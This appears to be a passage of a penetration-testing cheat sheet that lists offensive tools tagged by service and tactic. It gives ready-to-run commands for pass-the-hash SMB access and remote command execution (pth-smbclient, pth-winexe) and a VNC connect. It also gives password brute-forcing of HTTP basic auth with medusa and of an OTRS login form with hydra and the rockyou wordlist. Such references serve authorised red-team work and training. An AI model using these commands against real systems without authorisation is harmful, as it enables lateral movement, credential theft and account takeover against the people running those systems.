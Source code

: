 ## connect to target-share and auth via ntlm-hash
- `pth-smbclient --user=username --pw-nt-hash -m smb3 \\\\target-ip\\target-share ntlm-hash`

---

# pth-winexe
- service: smb
- service: ntlm
- tactics: lateral_movement
- suites: pth-toolkit

# run command on target-ip and auth via ntlm-hash
- `pth-winexe -U ntlm-hash //target-ip cmd`

---

# vinagre
- service: vnc
- tactics: lateral_movement

# vnc connect
- `vinagre`

---

# medusa
- service: http
- service: basic_auth
- tactics: credential_access

## bruteforce basic_auth
- `medusa -h target-ip -U ../creds/usernames.txt -P ../creds/passwords.txt -M http -m DIR:/printers -T 10`

---

# hydra
- service: http
- service: http_post
- service: sql
- tactics: credential_access

## bruteforce http_post with example post-data
- `hydra -l root@localhost -P /usr/share/wordlists/rockyou.txt target-ip http-post-form "/otrs/index.pl:Action=Login&RequestedURL=&Lang=en&TimeOffset=-60&User=^USER^&Password=^PASS^:
Login failed!"`
